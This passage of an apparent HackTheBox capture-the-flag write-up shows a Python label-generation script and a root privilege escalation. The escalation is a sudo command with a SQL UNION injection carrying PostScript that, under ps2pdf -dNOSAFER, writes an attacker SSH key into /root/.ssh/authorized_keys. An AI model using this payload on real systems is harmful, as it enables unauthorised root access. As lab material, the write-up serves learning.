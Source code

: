 ```python
        postscript_file.write(file_content)

    print("Generating PDF (until the printer gets fixed...)")
    output = subprocess.check_output(["ps2pdf", "-dNOSAFER", "-sPAPERSIZE=a4", postscript_output, pdf_output])
    if output != b"":
        print("Failed to convert to PDF")
        print(output.decode())

    print("Documents available in", temp_dir)
    os.chmod(postscript_output, 0o644)
    os.chmod(pdf_output, 0o644)
    os.chmod(temp_dir, 0o755)
    # Currently waiting for third party to enable HTTP requests for our on-prem printer
    # response = requests.post("http://printer.bookworm-internal.htb", files={"file": open(postscript_output)})

except Exception as e:
    print("Something went wrong!")
    print(e)

cnx.close()
```

This uses the `postscript_file.write` to first write the file, and then it uses`ps2pdf` to convert it to a PDF. The parameter taken by the user is not sanitised, making this vulnerable to SQL PostScript Injection actually.&#x20;

We can find out more about writing PostScript here by Googling PostScript write files:

{% embed url="https://stackoverflow.com/questions/25702146/file-i-o-in-postscript" %}

The idea here is to somehow write some PostScript code to put our own SSH key into the `root` user's `authorized_keys` folder. The user input is the very last parameter in the SQL query, which we can invalidate using this:

```
"0 UNION SELECT ')
```

This would escape the query and then end it. Then, we can append our PostScript exploit to the back of that:

```
show\n/outfile1 (/root/.ssh/authorized_keys) (w) file def\noutfile1 (key) writestring\noutfile1 closefile\n\n
```

Afterwards, we have to set the rest of the SQL values to prevent errors from happening. The final command is:

{% code overflow="wrap" %}
```bash
sudo /usr/local/bin/genlabel "0 union select') show\n/outfile1
(/root/.ssh/authorized_keys) (w) file def\noutfile1 (KEY)
writestring\noutfile1 closefile\n(a' as name, '1' as addressLine1, '1' as
addressLine2, '1' as town, '1' as postcode, 0 as orderId, 1 as userId;"
```
{% endcode %}
